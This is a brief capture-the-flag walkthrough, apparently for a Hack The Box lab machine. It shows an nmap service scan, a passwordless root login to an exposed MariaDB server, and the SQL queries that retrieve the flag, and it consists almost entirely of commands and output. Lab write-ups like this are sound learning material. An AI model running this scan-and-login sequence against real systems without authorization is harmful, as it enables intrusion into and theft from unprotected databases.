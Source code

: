 1. **Scan all the ports using default scripts and determine service and version of open ports**
```bash
nmap -sV -sC [target ip]
```
--> port 3306/tcp - open - mysql
--> MySQL 5.5.5-10.3.27-MariaDB-0+deb10u1


2. **Use "mysql" to get into the machine database with the "root" user**
```bash
mysql -h [target ip] -u root
```
--> **MACHINE PWNED!**


3. **Move inside the machine and Capture the flag**
```bash
MariaDB [{none}]> SHOW databases;
DATABASES: htb / information / mysql

MariaDB [{none}]> USE htb;
DATABASE CHANGED

MariaDB [htb]> SHOW tables;
TABLES IN HTB: config / users

MariaDB [htb]> SELECT * FROM config;
flag - [flag]
```
--> That's it!